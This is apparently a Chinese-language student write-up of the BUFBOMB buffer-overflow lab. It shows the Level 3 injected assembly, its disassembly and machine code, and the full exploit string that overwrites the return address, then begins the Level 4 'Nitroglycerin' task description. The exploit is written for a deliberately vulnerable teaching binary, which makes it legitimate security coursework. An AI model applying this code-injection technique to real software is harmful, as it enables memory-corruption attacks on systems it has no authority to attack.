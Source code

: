 
编写漏洞汇编代码level3.S：

```assembly
mov  0x804d104,%eax			/* move Cookies to %eax */
mov  $0x55683cf0,%ebp		/* restore any corrupted state */
push $0x8048e50					/* push the correct return location on the stack */
ret											/* return test */
```

使用工具进行汇编和反汇编得到level3.d：

```assembly

level3.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	a1 04 d1 04 08       	mov    0x804d104,%eax
   5:	bd f0 3c 68 55       	mov    $0x55683cf0,%ebp
   a:	68 50 8e 04 08       	push   $0x8048e50
   f:	c3                   	ret    
```

所以得到的机器码为

`a1 04 d1 04 08 bd f0 3c 68 55 68 50 8e 04 08 c3 `

**编写漏洞字符串**

把机器码从buf的首地址存放，所以最终的漏洞字符串为：

```
a1 04 d1 04 08 bd f0 3c 68 55 
68 50 8e 04 08 c3 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 98 3c 68 55
```

运行结果![截屏2024-05-24 上午8.46.56](截屏2024-05-24 上午8.46.56.png)

### Level 4: Nitroglycerin

#### 任务要求

不同的用户给定过程使用的确切堆栈位置将有所不同。这种变化的一个原因是，当程序开始执行时，所有环境变量的值都放置在堆栈的底部附近。环境变量存储为字符串，根据其值需要不同数量的存储。因此，为给定用户分配的堆栈空间取决于他或她的环境变量的设置。在GDB下运行程序时，堆栈位置也不同，因为GDB将堆栈空间用于一些自己的状态。

在调用`getbuf`的代码中，我们纳入了稳定堆栈的功能，以便`getbuf`的堆栈帧的位置在运行之间保持一致。这使得您可以编写一个知道buf的确切起始地址的漏洞字符串。如果尝试在正常程序上使用这种漏洞，您会发现它有时有效，但在其他时候会导致段错误。因此，名为“炸药”——一种由阿尔弗雷德·诺贝尔开发的炸药，含有稳定元素，使其更不容易发生意外爆炸。

在level4，我们走的是相反的方向，使堆栈位置比平时更不稳定。因此被称为“硝化甘油”——一种众所周知的不稳定的炸药。当您使用命令行标志“-n”运行BUFBOMB时，它将以“Nitro”模式运行。该程序没有调用函数`getbuf`，而是调用一个略微不同的函数`getbufn`：

```c
/* Buffer size for getbufn */
#define KABOOM_BUFFER_SIZE 512
```

